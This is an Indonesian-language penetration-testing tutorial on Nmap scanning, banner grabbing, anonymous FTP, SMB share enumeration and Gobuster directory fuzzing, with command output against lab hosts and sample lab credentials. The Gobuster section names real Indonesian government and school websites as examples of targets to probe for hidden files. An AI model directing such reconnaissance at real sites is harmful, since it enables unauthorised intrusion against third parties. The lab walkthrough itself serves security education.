maka dari itu kerentanan ada banyak sekali bentuknya dan ragamnya yang berefek ke web server.Kita bakal sering mendengar tentang/melihat referensi ke *OWASP Top 10.* Ini adalah daftar standar dari 10 kerentanan aplikasi web teratas yang dikelola oleh Open Web Application Security Project (**OWASP**). Daftar ini dianggap sebagai 10 kerentanan paling berbahaya dan bukan daftar lengkap dari semua kemungkinan kerentanan aplikasi web. Metodologi penilaian keamanan aplikasi web seringkali didasarkan pada OWASP top 10 sebagai titik awal untuk kategori utama kelemahan yang harus diperiksa oleh penilai. Daftar OWASP Top 10 saat ini adalah:

| Number | Category                                                                                                                   | Description                                                                                                                                                                                                                                                                                                                           |
| ------ | -------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1.     | [Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)                                           | Pembatasan tidak diterapkan dengan benar untuk mencegah pengguna mengakses akun pengguna lain, melihat data sensitif, mengakses fungsi yang tidak sah, mengubah data, dll.                                                                                                                                                            |
| 2.     | [Cryptographic Failures](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/)                                         | Kegagalan terkait kriptografi yang sering menyebabkan sensitive data exposure atau system compromise.                                                                                                                                                                                                                                 |
| 3.     | [Injection](https://owasp.org/Top10/A03_2021-Injection/)                                                                   | Data yang disediakan pengguna tidak divalidasi, difilter, atau disanitasi oleh aplikasi. Beberapa contoh injeksi adalah SQL injection, command injection, LDAP injection, etc.                                                                                                                                                        |
| 4.     | [Insecure Design](https://owasp.org/Top10/A04_2021-Insecure_Design/)                                                       | Masalah ini terjadi ketika aplikasi tidak dirancang dengan mempertimbangkan keamanan.                                                                                                                                                                                                                                                 |
| 5.     | [Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)                                   | Pengerasan keamanan yang tidak tepat di seluruh bagian tumpukan aplikasi, konfigurasi default yang tidak aman, penyimpanan cloud terbuka, pesan kesalahan verbose yang mengungkapkan terlalu banyak informasi.                                                                                                                        |
| 6.     | [Vulnerable and Outdated Components](https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/)                 | Menggunakan komponen (baik sisi klien maupun sisi server) yang rentan, tidak didukung, atau kedaluwarsa biasa kita temukan dalam komponen wordpress.                                                                                                                                                                                  |
| 7.     | [Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/) | Serangan terkait otentikasi yang menargetkan user's identity, authentication, dan session management.                                                                                                                                                                                                                                 |
| 8.     | [Software and Data Integrity Failures](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)             | Software and data integrity failuresterkait dengan kode dan infrastruktur yang tidak melindungi dari pelanggaran integritas. Contohnya adalah ketika aplikasi bergantung pada plugin, pustaka, atau modul dari sumber, repositori github, dan content delivery networks (CDNs).                                                       |
| 9.     | [Security Logging and Monitoring Failures](https://owasp.org/Top10/A09_2021-Security_Logging_and_Monitoring_Failures/)     | Kategori ini untuk membantu mendeteksi, meningkatkan, dan merespons pelanggaran aktif. Tanpa pencatatan dan pemantauan, pelanggaran tidak dapat dideteksi                                                                                                                                                                             |
| 10.    | [Server-Side Request Forgery](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)                    | Kelemahan SSRF terjadi setiap kali aplikasi web mengambil sumber daya jarak jauh tanpa memvalidasi URL yang disediakan pengguna. Ini memungkinkan penyerang untuk memaksa aplikasi mengirim permintaan yang dibuat ke tujuan yang tidak terduga, bahkan ketika dilindungi oleh firewall, VPN, atau  access control list(ACL) lainnya. |


---

# Basic Tools

Alat seperti **SSH**, **Netcat**,dan **Tmux**,sangat penting dan digunakan setiap hari oleh sebagian besar profesional Infosec. Meskipun alat-alat ini tidak dimaksudkan sebagai alat pengujian penetrasi, mereka sangat penting untuk proses pengujian penetrasi, jadi kita harus menguasainya.

## Using SSH
Secure Shell (SSH) adalah protokol jaringan yang berjalan pada port 22 secara default dan menyediakan pengguna seperti administrator sistem cara yang aman untuk mengakses komputer dari jarak jauh. SSH dapat dikonfigurasi dengan otentikasi kata sandi atau tanpa kata sandi menggunakan public-key authentication dengan pasangan kunci publik/privat SSH. SSH dapat digunakan untuk mengakses sistem dari jarak jauh pada jaringan yang sama, melalui internet, memfasilitasi koneksi ke sumber daya di jaringan lain menggunakan port forwarding/proxying, dan mengunggah/mengunduh file ke dan dari sistem jarak jauh.

SSH menggunakan model client-server, menghubungkan pengguna yang menjalankan aplikasi klien SSH seperti OpenSSH ke server SSH. Saat menyerang sebuah Box atau selama pengujian di dunia nyata, kita sering mendapatkan kredensial cleartext atau kunci privat SSH yang dapat dimanfaatkan untuk terhubung langsung ke sistem melalui SSH. Koneksi SSH biasanya jauh lebih stabil daripada koneksi reverse shell dan seringkali dapat digunakan sebagai "jump host" untuk menghitung dan menyerang host lain di jaringan, mentransfer alat, mengatur persistensi, dll. Jika kita mendapatkan satu set kredensial, kita dapat menggunakan SSH untuk login dari jarak jauh ke server dengan menggunakan username @ IP server jarak jauh, sebagai berikut:

```shell
Akmal117450@Linux]$ ssh Dhava@10.10.10.10

Dhava@remotehost's password: *********

Dhava@remotehost#
```
Dimungkinkan juga untuk membaca private-key lokal pada sistem yang masukin atau menambahkan public-key kita untuk mendapatkan akses SSH ke pengguna tertentu, seperti yang akan kita bahas di bagian selanjutnya. Seperti yang bisa kita lihat, SSH adalah alat yang sangat baik untuk terhubung dengan aman ke mesin jarak jauh. Ini juga menyediakan cara untuk memetakan port lokal pada mesin jarak jauh ke localhost kita, yang terkadang bisa berguna.

## Using Netcat
Netcat, ncat, atau nc, adalah utilitas jaringan yang sangat baik untuk berinteraksi dengan port TCP/UDP. Ini dapat digunakan untuk banyak hal selama pentest. Penggunaan utamanya adalah untuk menghubungkan ke shell, yang akan kita bahas nanti di modul ini. Selain itu, netcat dapat digunakan untuk terhubung ke port "Listener" mana pun dan berinteraksi dengan layanan yang berjalan pada port tersebut. Misalnya, SSH diprogram untuk menangani koneksi melalui port 22 untuk mengirim semua data dan kunci. Kita dapat terhubung ke port TCP 22 dengan netcat:

```shell
Akmal11740@Linux$ netcat 10.10.10.10 22

SSH-2.0-OpenSSH_8.4p1 Debian-3
```
Seperti yang kita lihat, port 22 mengirim bannernya kepada kita, yang menyatakan bahwa SSH berjalan di atasnya. Teknik ini disebut Banner Grabbing, dan dapat membantu mengidentifikasi layanan apa yang berjalan pada port tertentu. Netcat sudah terinstal di sebagian besar distribusi Linux. Kita juga dapat mengunduh salinan untuk mesin Windows dari [tautan ini](https://eternallybored.org/misc/netcat/). Ada alternatif Windows lain untuk netcat yang dikodekan dalam PowerShell yang disebut PowerCat. Netcat juga dapat digunakan untuk mentransfer file antar mesin, seperti yang akan kita bahas nanti.

Utilitas jaringan lain yang serupa adalah socat, yang memiliki beberapa fitur yang tidak didukung netcat, seperti meneruskan port dan menghubungkan ke perangkat serial. Socat juga dapat digunakan untuk meningkatkan shell ke TTY yang sepenuhnya interaktif. Kita akan melihat beberapa contohnya di bagian selanjutnya. Socat adalah utilitas yang sangat berguna yang harus menjadi bagian dari toolkit setiap penguji penetrasi. Biner mandiri Socat dapat ditransfer ke sistem setelah mendapatkan eksekusi kode jarak jauh untuk mendapatkan koneksi **reverse shell** yang lebih stabil.

## Using Tmux
Terminal multiplexer, seperti tmux atau Screen, adalah utilitas yang bagus untuk memperluas fitur terminal Linux standar, seperti memiliki beberapa jendela dalam satu terminal dan melompat di antaranya. Mari kita lihat beberapa contoh penggunaan tmux, yang lebih umum dari keduanya. Jika tmux tidak ada di sistem Linux kita, kita dapat menginstalnya dengan perintah berikut:
```shell
Akmal@Linux$ sudo apt install tmux -y
```
Setelah kita memiliki tmux, kita bisa memulainya dengan memasukkan `tmux` sebagai perintah kita:
```shell
Akmal@Linux$ tmux
```

Tombol default untuk memasukkan prefix perintah tmux adalah `[CTRL + B]`. Untuk membuka jendela baru di tmux, kita dapat menekan prefix `[CTRL + B]` lalu tekan `C`:
```shell
[CTRL + B] C
```
Kita melihat jendela bernomor di bagian bawah. Kita dapat beralih ke setiap jendela dengan menekan prefix dan kemudian memasukkan nomor jendela, seperti `0` atau `1`. Kita juga dapat membagi jendela secara vertikal menjadi panel dengan menekan prefix dan kemudian `[SHIFT + %]`:
```shell
[CTRL + B] [SHIFT + %]
```
Kita juga dapat membagi menjadi panel horizontal dengan menekan prefix dan kemudian `[SHIFT + "]`:
```shell
[CTRL + B] [SHIFT + "]
```
Kita dapat beralih antar panel dengan menekan prefix dan kemudian panah kiri atau kanan untuk peralihan horizontal atau panah atas atau bawah untuk peralihan vertikal. Perintah di atas mencakup beberapa penggunaan dasar tmux. Ini adalah alat yang ampuh dan dapat digunakan untuk banyak hal, termasuk pencatatan, yang sangat penting selama keterlibatan teknis apa pun. [Cheatsheet ini](https://tmuxcheatsheet.com/) adalah referensi yang sangat berguna.


---

# Service Scanning

Akhirnya kita bisa lanjut ke langkah selanjutnya yaitu mengetahui service yang digunakan sebuah mesin. Hal pertama yang perlu kita lakukan pas jadi Pentester adalah mengindentifikasi sistem operasi dan layanan apa saja yang mungkin sedang berjalan. Layanan adalah aplikasi yang berjalan di komputer yang melakukan beberapa fungsu guna untuk membantu pengguna atau komputer lain. Kita menyebut mesin khusus yang menghosting layanan ini sebagai "Server", yang memungkinkan pengguna untuk berinteraksi dengan server dan menggunakan layanan mereka. Yang kita inginkan adalah layanan yang salah dikonfigurasi atau memiliki kerentanan. Alih-alih melakukan tindakan yang diharapkan sebagai bagian dari layanan, kita kita akan lebih tertarik untuk melihat apakah kita dapat maksa layanan untuk melakukan tindakan yang tidak diinginkan yang mendukung tujuan kita seperti menjalankan perintah shell atau hal-hal yang merugikan lainnya.

Komputer diberi alamat IP, yang memungkinkan mereka untuk diidentifikasi secara unik dan dapat diakses di jaringan. Layanan yang berjalan pada komputer ini dapat diberi nomor port untuk membuat layanan dapat diakses. Seperti yang dibahas sebelumnya, nomor port berkisar dari 1 hingga 65.535, dengan rentang port terkenal 1 hingga 1.023 dicadangkan untuk privileged services. Port 0 adalah port yang dicadangkan dalam jaringan TCP/IP dan tidak digunakan dalam pesan TCP atau UDP. Jika ada yang mencoba untuk bind ke port 0 (seperti service), itu akan mengikat ke port berikutnya yang tersedia di atas port 1.024 karena port 0 diperlakukan sebagai port "wild card".

Untuk mengakses service dari jarak jauh, kita perlu terhubung menggunakan alamat IP dan nomor port yang benar dan menggunakan bahasa yang dipahami layanan tersebut. Kita perlu memeriksa semua 65.535 port secara manual untuk setiap service yang tersedia bakal bikin lu cape, sehingga ada alat yang dibuat untuk otomatis proses ini dan memindai rentang port untuk kita. Salah satu alat pemindaian yang paling umum digunakan adalah **Nmap (Network Mapper)**.

## Nmap
Mari kita mulai dengan pemindaian paling dasar. Misalkan kita ingin melakukan pemindaian dasar terhadap target yang berada di 10.129.42.253. Untuk melakukan ini kita harus mengetik `nmap 10.129.42.253` dan tekan enter. Kita melihat bahwa pemindaian Nmap selesai dengan sangat cepat. Ini karena jika kita tidak menentukan opsi tambahan apa pun, Nmap hanya akan memindai 1.000 port paling umum secara default. Output pemindaian mengungkapkan bahwa port 21, 22, 80, 139, dan 445 tersedia.

Ayo kita mulai dengan pemindaian paling dasar. Misalkan kita pengen memindai target yang berada di `10.129.42.253`. Untuk melakukan ini kita harus mengetik di terminal `nmap 10.129.42.253` dan enter. kita bisa lihat bahwa pemindaian Nmao selesai dengan sangat cepat. Karena jika kita tidak menentukan opsi tambahan apa pun, Nmap hanya akan memindai 1.000 port paling umum secara default. Output pemindaian mengungkapkan bahwa port 21, 22, 80, 139, dan 445 tersedia.
```shell
Akmal7450@linux$ nmap 10.129.42.253

Starting Nmap 7.80 ( https://nmap.org ) at 2024-07-25 16:07 EST
Nmap scan report for 10.129.42.253
Host is up (0.11s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds
```
Di bawah judul `PORT`, ini juga memberi tahu kita bahwa ini adalah port TCP. Secara default, Nmap akan melakukan pemindaian TCP kecuali secara khusus diminta untuk melakukan pemindaian UDP.

Judul `STATE` mengonfirmasi bahwa port ini terbuka. Terkadang kita akan melihat port lain yang terdaftar yang memiliki status berbeda, seperti `filtered`. Ini bisa terjadi jika firewall hanya mengizinkan akses ke port dari alamat tertentu.

Judul `SERVICE` memberi tahu kita nama layanan yang biasanya dipetakan ke nomor port tertentu. Namun, pemindaian default tidak akan memberi tahu kita apa yang mendengarkan pada port itu. Sampai kita menginstruksikan Nmap untuk berinteraksi dengan layanan dan mencoba menggoda informasi pengidentifikasi, itu bisa menjadi layanan lain sama sekali.

## Pemindaian Nmap Lebih Lanjut
Saat kita semakin familiar, kita akan melihat bahwa beberapa port biasanya dikaitkan dengan Windows atau Linux. Misalnya, port 3389 adalah port default untuk Remote Desktop Services(**RDP**) dan merupakan indikasi yang sangat baik bahwa targetnya adalah mesin Windows. Dalam skenario kita saat ini, port 22 (**SSH**) yang tersedia menunjukkan bahwa target menjalankan Linux/Unix, tetapi layanan ini juga dapat dikonfigurasi di Windows. Mari kita jalankan pemindaian Nmap yang lebih expert dan mengumpulkan lebih banyak informasi tentang perangkat target.

Kita dapat menggunakan parameter `-sC` untuk menentukan bahwa skrip Nmap harus digunakan untuk mencoba dan mendapatkan informasi yang lebih rinci. Parameter `-sV` menginstruksikan Nmap untuk melakukan pemindaian versi. Dalam pemindaian ini, Nmap akan mengambil sidik jari(fingerprint services) layanan pada sistem target dan mengidentifikasi protokol layanan, nama aplikasi, dan versi. Pemindaian versi didukung oleh basis data komprehensif yang berisi lebih dari 1.000 service signatures. Akhirnya, `-p-` ngasih tahu Nmap bahwa kita ingin memindai semua 65.535 port TCP.

```shell
Akmal7450@Linux$ nmap -sV -sC -p- 10.129.42.253

Starting Nmap 7.80 ( https://nmap.org ) at 2024-07-25 16:18 EST
Nmap scan report for 10.129.42.253
Host is up (0.11s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Feb 25 19:25 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: PHP 7.4.3 - phpinfo()
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: GS-SVCSCAN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-07-25T21:21:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 233.68 seconds
```
Ini nge return lebih banyak informasi. Kita dapat melihat bahwa ini dibutuhkan waktu lebih lama untuk memindai 65.535 port daripada 1.000 port. Opsi `-sC` dan `-sV` juga meningkatkan durasi pemindaian, karena alih-alih melakukan handshake TCP sederhana, mereka melakukan lebih banyak pemeriksaan. Kita melihat bahwa kali ini ada judul `VERSION`, yang melaporkan versi layanan dan sistem operasi jika ini memungkinkan untuk diidentifikasi.

Sejauh ini, kita tahu bahwa sistem operasinya adalah Ubuntu Linux. Versi aplikasi juga dapat membantu mengungkapkan versi OS target. Ambil OpenSSH, misalnya. Kita melihat versi yang dilaporkan adalah OpenSSH 8.2p1 Ubuntu 4ubuntu0.1. Dari pemeriksaan changelog paket SSH Ubuntu lainnya, kita melihat versi rilis mengambil format 1:7.3p1-1ubuntu0.1. Memperbarui versi kita agar sesuai dengan format ini, kita mendapatkan 1:8.2p1-4ubuntu0.1. Pencarian cepat untuk versi ini secara online mengungkapkan bahwa itu termasuk dalam Ubuntu Linux Focal Fossa 20.04.

Pencarian cepat lainnya mengungkapkan bahwa tanggal rilis OS ini adalah 23 April 2020.

Namun, perlu dicatat bahwa teknik cross-referencing ini tidak sepenuhnya dapat diandalkan, karena dimungkinkan untuk menginstal paket aplikasi yang lebih baru pada versi OS yang lebih lama.Flag pemindaian skrip `-sC` menyebabkan Nmap melaporkan header server `http-server-header` dan judul halaman `http-title` untuk halaman web apa pun yang dihosting di server web. Judul halaman web `PHP 7.4.3 - phpinfo()` menunjukkan bahwa ini adalah file PHPInfo, yang sering dibuat secara manual untuk mengonfirmasi bahwa PHP telah berhasil diinstal. Judul (dan halaman PHPInfo) juga mengungkapkan versi PHP, yang perlu diperhatikan jika rentan.


#### Nmap Scripts
Milih `-sC` akan menjalankan banyak skrip default yang berguna terhadap target, tetapi ada kasus ketika menjalankan skrip tertentu diperlukan. Misalnya, dalam lingkup penilaian, kita mungkin diminta untuk mengaudit instalasi Citrix yang besar(besar cuy). Kita dapat menggunakan skrip Nmap [ini](https://raw.githubusercontent.com/cyberstruggle/DeltaGroup/master/CVE-2019-19781/CVE-2019-19781.nse) untuk mengaudit kerentanan Citrix NetScaler yang parah ([CVE-2019–19781](https://blog.rapid7.com/2020/01/17/active-exploitation-of-citrix-netscaler-cve-2019-19781-what-you-need-to-know/)), sementara Nmap juga memiliki skrip lain untuk mengaudit instalasi Citrix.

```shell
Akmal7450@linux$ locate scripts/citrix

/usr/share/nmap/scripts/citrix-brute-xml.nse
/usr/share/nmap/scripts/citrix-enum-apps-xml.nse
/usr/share/nmap/scripts/citrix-enum-apps.nse
/usr/share/nmap/scripts/citrix-enum-servers-xml.nse
/usr/share/nmap/scripts/citrix-enum-servers.nse
```
Sintaks untuk menjalankan skrip Nmap ini adalah `nmap --script <nama skrip> -p<port> <host>`
Skrip Nmap adalah cara yang bagus untuk meningkatkan fungsionalitas pemindaian kita, dan pemeriksaan opsi yang tersedia akan membuahkan hasil. Belajar modul Enumerasi Jaringan dengan Nmap untuk studi yang lebih rinci tentang alat Nmap dengan membayar 10rb ke Akmal 😳.

## Attacking Network Services

### Banner Grabbing
Seperti yang telah dibahas sebelumnya, banner grabbing adalah teknik yang berguna untuk mengidentifikasi layanan dengan cepat. Seringkali layanan akan mencari untuk mengidentifikasi dirinya sendiri dengan menampilkan banner setelah koneksi dimulai. Nmap akan mencoba mengambil banner jika sintaks `nmap -sV --script=banner <target>` ditentukan. Kita juga dapat mencoba ini secara manual menggunakan Netcat. Mari kita ambil contoh lain, menggunakan versi nc dari Netcat:
```shell
Akmal7450@Linux$ nc -nv 10.129.42.253 21

(UNKNOWN) [10.129.42.253] 21 (ftp) open
220 (vsFTPd 3.0.3)
```
Ini ngasih tau kalo versi vsFTPd di server adalah 3.0.3. Kita juga dapat mengotomatiskan proses ini menggunakan mesin scripting Nmap yang kuat: `nmap -sV --script=banner -p21 10.10.10.0/24`.

#### FTP
Penting untuk membiasakan diri dengan FTP, karena ini adalah protokol standar, dan layanan ini sering kali berisi data yang menarik. Pemindaian Nmap pada port default untuk **FTP** (21) mengungkapkan instalasi vsftpd 3.0.3 yang kita identifikasi sebelumnya. Lebih lanjut, ini juga melaporkan bahwa otentikasi anonim diaktifkan.
```shell
Akmal7450@Linux$ nmap -sC -sV -p21 10.129.42.253

Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-20 00:54 GMT
Nmap scan report for 10.129.42.253
Host is up (0.081s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 19 23:50 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
```
Mari kita sambungkan ke layanan menggunakan ftp.
```bash
Akmal7450@Linux$ ftp -p 10.129.42.253

Connected to 10.129.42.253.
220 (vsFTPd 3.0.3)
Name (10.129.42.253:user): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
227 Entering Passive Mode (10,129,42,253,158,60).
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Feb 25 19:25 pub
226 Directory send OK.

ftp> cd pub
250 Directory successfully changed.

ftp> ls
227 Entering Passive Mode (10,129,42,253,182,129).
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            18 Feb 25 19:25 login.txt
226 Directory send OK.

ftp> get login.txt
local: login.txt remote: login.txt
227 Entering Passive Mode (10,129,42,253,181,53).
150 Opening BINARY mode data connection for login.txt (18 bytes).
226 Transfer complete.
18 bytes received in 0.00 secs (165.8314 kB/s)

ftp> exit
221 Goodbye.
```
Dalam shell di atas, kita melihat bahwa FTP mendukung perintah umum seperti `cd` dan `ls` dan memungkinkan kita mengunduh file menggunakan perintah `get`. Pemeriksaan `login.txt` yang diunduh mengungkapkan kredensial yang dapat kita gunakan untuk melanjutkan akses kita ke sistem.
```shell
Akmal7450@linux$ cat login.txt 

admin:ftp@dmin123
```

### SMB
SMB (Server Message Block) adalah protokol yang umum digunakan pada mesin Windows yang menyediakan banyak vektor untuk pergerakan vertikal dan lateral. Data sensitif, termasuk kredensial, dapat berada dalam berbagi file jaringan (network file shares), dan beberapa versi SMB mungkin rentan terhadap eksploitasi RCE seperti [EternalBlue](https://www.avast.com/c-eternalblue). Sangat penting untuk menghitung permukaan serangan potensial yang besar ini dengan hati-hati. Nmap memiliki banyak skrip untuk enumerasi SMB, seperti [smb-os-discovery.nse](https://nmap.org/nsedoc/scripts/smb-os-discovery.html), yang akan berinteraksi dengan layanan SMB untuk mengekstrak versi sistem operasi yang dilaporkan.
```shell
Akmal7450@linux$ nmap --script smb-os-discovery.nse -p445 10.10.10.40

Starting Nmap 7.91 ( https://nmap.org ) at 2024-12-27 00:59 GMT
Nmap scan report for doctors.htb (10.10.10.40)
Host is up (0.022s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: CEO-PC
|   NetBIOS computer name: CEO-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-12-27T00:59:46+00:00

Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds
```
Dalam hal ini, host menjalankan OS Windows 7 lawas, dan kita dapat melakukan enumerasi lebih lanjut untuk mengonfirmasi apakah rentan terhadap EternalBlue. Metasploit Framework memiliki beberapa modul untuk EternalBlue yang dapat digunakan untuk memvalidasi kerentanan dan mengeksploitasinya. Kita dapat menjalankan pemindaian terhadap target kita untuk bagian ini untuk mengumpulkan informasi dari layanan SMB. Kita dapat memastikan bahwa host menjalankan kernel Linux, Samba versi 4.6.2, dan nama hostnya adalah GS-SVCSCAN.
```shell
Akmal7450@Linux]$ nmap -A -p445 10.129.42.253

Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-25 16:29 EST
Nmap scan report for 10.129.42.253
Host is up (0.11s latency).

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 4.6.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

Host script results:
|_nbstat: NetBIOS name: GS-SVCSCAN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-02-25T21:30:06
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   111.62 ms 10.10.14.1
2   111.89 ms 10.129.42.253

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.72 seconds
```

#### Shares
SMB memungkinkan pengguna dan administrator untuk berbagi folder dan membuatnya dapat diakses dari jarak jauh oleh pengguna lain. Seringkali share ini memiliki file di dalamnya yang berisi informasi sensitif seperti kata sandi. Alat yang dapat menghitung dan berinteraksi dengan share SMB adalah `smbclient`. Flag `-L` menentukan bahwa kita ingin mengambil daftar share yang tersedia di host jarak jauh, sementara `-N` menekan permintaan kata sandi.
```shell
Akmal7450@Linux$ smbclient -N -L \\\\10.129.42.253

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	users           Disk      
	IPC$            IPC       IPC Service (gs-svcscan server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```
Ini mengungkapkan share `users` yang bukan default. Mari kita coba terhubung sebagai pengguna tamu (guest).
```shell
Akmal7450@Linux$ smbclient \\\\10.129.42.253\\users

Enter WORKGROUP\users's password: 
Try "help" to get a list of possible commands.

smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*

smb: \> exit
```
Perintah `ls` menghasilkan pesan akses ditolak, yang menunjukkan bahwa akses tamu tidak diizinkan. Mari kita coba lagi menggunakan kredensial untuk pengguna bob (`dhava:Welcome1`).
```shell-session
Akmal7450@Linux$ smbclient -U dhava \\\\10.129.42.253\\users

Enter WORKGROUP\dhava's password: 
Try "help" to get a list of possible commands.

smb: \> ls
  .                                   D        0  Thu Feb 25 16:42:23 2021
  ..                                  D        0  Thu Feb 25 15:05:31 2021
  dhava                               D        0  Thu Feb 25 16:42:23 2021

		4062912 blocks of size 1024. 1332480 blocks available
		
smb: \> cd dhava

smb: \dhava\> ls
  .                                   D        0  Thu Feb 25 16:42:23 2021
  ..                                  D        0  Thu Feb 25 16:42:23 2021
  passwords.txt                       N      156  Thu Feb 25 16:42:23 2021

		4062912 blocks of size 1024. 1332480 blocks available
		
smb: \dhava\> get passwords.txt 
getting file \dhava\passwords.txt of size 156 as passwords.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
```
Kita berhasil mendapatkan akses ke share pengguna menggunakan kredensial dan mendapatkan akses ke file `passwords.txt` yang menarik, yang dapat diunduh dengan perintah `get`.

### Kesimpulan
Pemindaian dan enumerasi layanan adalah subjek yang luas yang akan kita pelajari lebih lanjut seiring berjalannya waktu

**Ringkasanya nih:**
- **Nmap:** Alat pemindaian port yang kuat untuk mengidentifikasi layanan dan sistem operasi.
- **Banner Grabbing:** Teknik untuk mendapatkan informasi tentang layanan yang berjalan pada port tertentu.
- **FTP:** Protokol transfer file yang seringkali berisi data sensitif.
- **SMB:** Protokol berbagi file yang umum digunakan pada mesin Windows.
- **Enumerasi:** Proses mengumpulkan informasi tentang target untuk mengidentifikasi potensi kerentanan.


---

# Web Enumeration

Ketika melakukan pemindaian layanan, kita akan sering menemukan web server yang berjalan pada port 80 dan 443. Web server meng-hosting aplikasi web (terkadang lebih dari 1) yang seringkali menyediakan permukaan serangan yang cukup besar dan target yang sangat bernilai tinggi selama pengujian penetrasi. Enumerasi web yang tepat sangat penting, terutama ketika suatu organisasi tidak mengekspos banyak layanan atau layanan tersebut sudah ditambal dengan benar.

## Gobuster
Gobuster sendiri adalah alat yang paling sering digunakan (Termasuk gw), dan alat paling dasar,ada banyak alat fuzzing lainnya diluar sana ,tapi ketika menemukan aplikasi web seperti (Sumedangkab.go.id,SMAN3sumedang.sch.id,dll).selalu ada baiknya untuk memeriksa apakah kita dapat menemukan file atau direktori tersembunyi di web server yang tidak dimaksudkan untuk akses publik. Kita dapat menggunakan alat seperti `ffuf` atau `GoBuster` untuk melakukan enumerasi direktori ini. Terkadang kita akan menemukan fungsionalitas tersembunyi atau halaman/direktori yang mengekspos data sensitif yang dapat dimanfaatkan untuk mengakses aplikasi web atau bahkan eksekusi kode jarak jauh pada web server itu sendiri.
in nutshell gw singkat kayak gini : 
- **Enumerasi Direktori:** Proses menemukan direktori dan file tersembunyi di web server.
- **ffuf & GoBuster:** Alat yang digunakan untuk melakukan enumerasi direktori dengan mencoba berbagai nama direktori dan file berdasarkan daftar kata (wordlist).
- **Fungsinalitas Tersembunyi:** Fitur atau halaman yang tidak terhubung ke navigasi utama situs web tetapi mungkin masih dapat diakses.
- **Data Sensitif:** Informasi rahasia seperti kredensial, data pengguna, atau konfigurasi server yang seharusnya tidak dapat diakses publik.
- **Eksekusi Kode Jarak Jauh (RCE):** Kerentanan yang memungkinkan penyerang menjalankan kode berbahaya di server web.
